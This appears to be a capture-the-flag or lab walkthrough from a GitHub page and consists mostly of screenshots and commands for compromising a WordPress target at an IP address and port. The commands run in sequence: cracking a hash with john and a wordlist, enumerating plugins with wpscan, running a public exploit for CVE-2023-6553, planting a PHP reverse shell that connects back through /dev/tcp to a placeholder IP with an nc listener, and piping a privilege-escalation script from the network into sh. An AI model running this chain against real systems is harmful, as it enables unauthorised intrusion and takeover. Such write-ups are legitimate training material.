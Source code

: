 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9f53dde2-8fda-4c59-80d5-d6b02a6086b7)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b8a594be-31ef-4467-91f7-fbaa33ad2067)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/00806b5b-8a84-4cfc-88fc-22413357b290)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d2b41dd2-9edf-4593-b360-1f436cae93ee)

```
wpscan --url http://62.173.140.174:28580/ --enumerate ap --plugins-detection aggressive
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c687398-0fe3-43b0-b37e-e8588fe155fc)

https://github.com/Chocapikk/CVE-2023-6553
```
python exploit.py -u http://62.173.140.174:28580/
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f23edae7-f8e4-41a6-ab3a-029afce66eca)
```
echo '<?php phpinfo(); ?>' > /var/www/html/test.php
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c66d94c1-de4b-4215-9ad9-3994e66440eb)
```
wget http://IP:1234/myrev.php 
[cat /var/www/html/](http://62.173.140.174:28580/wp-content/plugins/backup-backup/includes/myrev.php)
<?php echo system("bash -c 'sh -i >& /dev/tcp/IP/1234 0>&1'"); ?>
nc -lvnp 1234 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c492a62a-122a-4513-a8a0-b40b836af3b0)
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```


![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2ee223bb-6ddb-4432-9ee3-4b3a83dae374)
```
nc localhost 1337
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f63d03aa-f8c0-432d-a33b-ad36ffad97fc)

